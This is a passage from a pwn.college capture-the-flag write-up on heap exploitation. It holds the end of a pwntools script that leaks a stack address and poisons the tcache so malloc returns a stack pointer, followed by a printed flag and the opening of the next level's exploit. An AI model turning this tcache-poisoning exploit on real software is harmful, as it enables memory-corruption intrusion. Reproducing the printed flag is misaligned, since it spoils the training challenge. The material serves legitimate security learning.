 ```python
    # raw_input("DEBUG")
    stack_free()

    free(0)
    # raw_input("DEBUG")
    puts(0)
    target.recvuntil(b"Data: ")
    stack = int.from_bytes(target.recvline().strip().ljust(0x8, b"\x00"), "little")
    target.success(f"stack: {hex(stack)}")

    malloc(0, 0x6A)
    malloc(1, 0x6A)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p64(stack))
    malloc(0, 0x6A)
    stack_malloc_win()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{QmZQE_PykX5z-wedw-snh6CwwtV.01M5MDL5cTNxgzW}`]

# Level 12.1

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to cause malloc() to return a stack pointer.

## Write-up

参见 [Level 12.0](#level-120)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


```